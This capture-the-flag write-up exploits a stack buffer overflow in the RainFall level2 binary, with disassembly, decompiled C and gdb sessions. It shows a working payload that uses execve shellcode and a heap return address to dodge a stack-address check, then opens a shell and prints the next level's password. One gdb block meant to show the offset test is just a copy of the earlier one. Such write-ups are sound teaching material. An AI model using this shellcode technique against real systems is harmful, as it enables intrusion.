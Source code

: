 Here is the program executed with ltrace:

```shell
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                               = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5test
)    = 0xbffff70c
puts("test"test
)                                     = 5
strdup("test")                                   = 0x0804a008
```

Disassembled version of the program:

```assembly
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    

Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
```

Decompiled code (ghidra) from an online decompiler (https://dogbolt.org/):

```c
void p(void)
{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)
{
  p();
  return;
}
```

When a 100-character long string is entered, we can see that EIP is overwritten:

```shell
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/sleleu/Documents/cursus/Rainfall/level2/level2 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Let's try to determine exactly how many characters it takes to overwrite EIP using https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/:

```shell
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/sleleu/Documents/cursus/Rainfall/level2/level2 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

I obtain an offset of 80. Therefore, if I create a string of 80 characters + ABCD, we find EIP rewritten with the characters ABCD:

```shell
Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

Here are the ESP addresses:

```shell
(gdb) x/20x $esp
0xbffff6c0:	0xbffff6dc	0x00000000	0x00000000	0xb7e5ec73
0xbffff6d0:	0x080482b5	0x00000000	0x00000000	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x08040041
```

I will attempt to redirect EIP to a shellcode. However, if I try to return the address from the beginning of the buffer in the stack, the program simply exit :

```shell
level2@RainFall:~$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90" * 52 + "\xdc\xf6\xff\xbf"';cat) | ./level2 
(0xbffff6dc)
```

The reason is this check, which prevents us from returning a stack address into EIP:

```c
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
```

However, towards the end of the code, there's a malloc for this buffer. strdup returns the address of the string allocated in the heap, the return address obtained previously with ltrace. Therefore, I can enter this address into EIP, which will allow bypassing the check.

So here's the payload, containing the shellcode (https://shell-storm.org/shellcode/files/shellcode-811.html), and the buffer padding of 76 bytes as well as the 4-byte EBP address, totaling 28 + 52 = 80 bytes, and finally the return address to the string in the heap:

```shell
(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08"';cat) | ./level2
```

As a result, I can retrieve the flag:

```shell
level2@RainFall:~$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08"';cat) | ./level2 
1�Ph//shh/bin����°
                  1�@̀�����������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
